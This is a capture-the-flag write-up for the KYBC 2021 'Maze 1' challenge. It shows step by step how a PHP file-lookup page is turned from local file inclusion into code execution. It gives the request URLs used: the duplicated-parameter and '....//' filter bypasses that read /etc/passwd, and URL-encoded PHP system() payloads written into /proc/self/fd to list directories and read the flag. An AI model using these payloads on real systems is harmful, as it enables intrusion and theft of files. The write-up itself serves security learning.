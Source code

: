 Title: KYBC 2021 - Maze 1 Writeup
Date: 2021-03-17
Category: CTF
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-1-writeups
Summary: Writeup for Maze 1 challenge at KYBC CTF


The site is basically a search box that checks for matching txt files and then redirects to `http://5.150.254.85:8082/lookup.php?f=file.txt` to display the content of the file. `flag.txt` obviously leads to a fake flag, but the whole thing looks like a potential LFI.

Trying to reach a file with an extension other than `.txt` results in an error. However, appending an extra `f` parameters after one with the `.txt` extension lets me bypass the extension check and access the content of the last file.

The txt files are inside a `files/` folder and there seem to be some sort of sanitization mechanism, since `../` get stripped away. However, the filter applies only to that specific pattern, so `....//` becomes `../` after sanitation and allows me to look up into the parent folder.

Combining the two bypasses together gets me the `etc/passwd` file:

```
http://5.150.254.85:8082/lookup.php?f=flag.txt&f=....//....//....//....//etc/passwd`
```

The flag doesn't seem to be there though.

Let's see if it is possible to turn this LFI into an RCE, since trying to guess name and location of the flag doesn't sound like a realistic strategy.

By examining the `proc/self/fd` folder I discover that `proc/self/fd/11` stores the serialized parameters of the search request. Let's see if we can write by making a POST request containing `<?php system('id'); ?>`

```
http://5.150.254.85:8082/search=%3C%3Fphp+system%28%27id%27%29%3B+%3F%3E&submit=submit
```
and check the proc file again

```
http://5.150.254.85:8082/lookup.php?f=flag.txt&f=....//....//....//....//proc/self/fd/11
```

Yeah! The code gets executed and the result gets saved into it!!

Let's run `ls /`
```
http://5.150.254.85:8082/search=%3C%3Fphp%20system%28%27ls%20-al%27%29%3B%20%3F%3E&submit=submit

```
and check the outcome in the proc file. No flag in the root folder, but `home/ctf_user1` seems interesting:
```
http://5.150.254.85:8082/search=%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%27%6c%73%20%2d%61%6c%20%2f%68%6f%6d%65%2f%63%74%66%5f%75%73%65%72%31%27%29%3b%20%3f%3e&submit=submit
```

there's the flag - let's cat it!

```
http://5.150.254.85:8082/search=%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%27%63%61%74%20%2f%68%6f%6d%65%2f%63%74%66%5f%75%73%65%72%31%2f%2e%33%33%36%64%35%65%62%63%35%34%33%36%35%33%34%65%36%31%64%31%36%65%36%33%64%64%66%63%61%33%32%37%5f%66%6c%61%67%31%2e%74%78%74%27%29%3b%20%3f%3e&submit=submit
```

Success! `FLAG_c4a66ead822b8d2dd42da826eb180371`
